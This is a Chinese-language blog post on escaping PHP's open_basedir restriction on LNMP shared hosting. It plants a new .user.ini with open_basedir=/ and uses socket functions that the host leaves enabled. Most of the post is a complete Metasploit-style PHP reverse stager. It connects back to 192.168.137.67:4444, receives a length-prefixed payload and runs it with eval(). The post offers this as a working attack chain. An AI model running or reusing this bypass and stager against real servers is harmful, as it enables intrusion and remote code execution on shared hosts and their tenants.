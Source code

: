 ```yaml
---
layout: post
title: LNMP虚拟主机PHP沙盒逃逸
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;并不只是针对Lnmp的沙盒逃逸，而是.user.ini的设计缺陷达到绕过open_basedir限制，所以是通用的方法。首先来看看最新版LNMP是怎么配置open_basedir的：

    open_basedir=/home/wwwroot/default:/tmp/:/proc/

    lsattr .user.ini
    ----i----------- .user.ini

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;LNMP的open_basedir是通过.user.ini来配置的。再来看disable_functions都禁用了哪些函数：

    lnmp1.3/include/php.sh

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/5ethrdfb.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;注意到了stream_socket_server被禁用了。这个是用来建立Socket服务端的，完全可以使用其他可创建socket服务端的函数进行反弹个socket会话，比如socket_create、 fsockopen。不过虽是可以建立socket会话，但group为www，所以这个留在后面结合使用。

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;.user.ini是不允许增删改的，那怎样能突破限制？.user.ini只在当前目录生效了。那么我们可不可以写入新的.user.ini并且不与原.user.ini冲突，将其open_basedir指向根目录？可以的。


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;首先创建一个目录并写入新的.user.ini。新的.user.ini需要1-3min来生效。

    open_basedir=/

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;最后结合socket，使用msf在新目录生成个反向代理payload并稍加更改就可以了。

    <?php
    error_reporting(0);
    
    $ip = '192.168.137.67';
    $port = 4444;
    $ipf = AF_INET;
    if (FALSE !== strpos($ip, ":")) {
    	$ip = "[". $ip ."]";
    	$ipf = AF_INET6;
    }
    if (($f = 'fsockopen') && is_callable($f)) {
    	$s = $f($ip, $port);
    	$s_type = 'stream';
    } elseif (($f = 'socket_create') && is_callable($f)) {
    	$s = $f($ipf, SOCK_STREAM, SOL_TCP);
    	$res = @socket_connect($s, $ip, $port);
    	if (!$res) {
    		die(); 
    	}
    	$s_type = 'socket';
    } else {
    	die('no socket funcs');
    }
    if (!$s) {
    	die('no socket');
    }
    
    switch ($s_type) {
    	case 'stream': $len = fread($s, 4); break;
    	case 'socket': $len = socket_read($s, 4); break;
    }
    
    if (!$len) {
    	die();
    }
    
    $a = unpack("Nlen", $len); $len = $a['len'];
    $b = '';
    while (strlen($b) < $len) {
    	switch ($s_type) {
    		case 'stream': $b .= fread($s, $len-strlen($b)); break;
    		case 'socket': $b .= socket_read($s, $len-strlen($b)); break;
    	}
    }
    $GLOBALS['msgsock'] = $s;
    $GLOBALS['msgsock_type'] = $s_type;
    eval($b);
    die();
    ?>

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/rsd.png">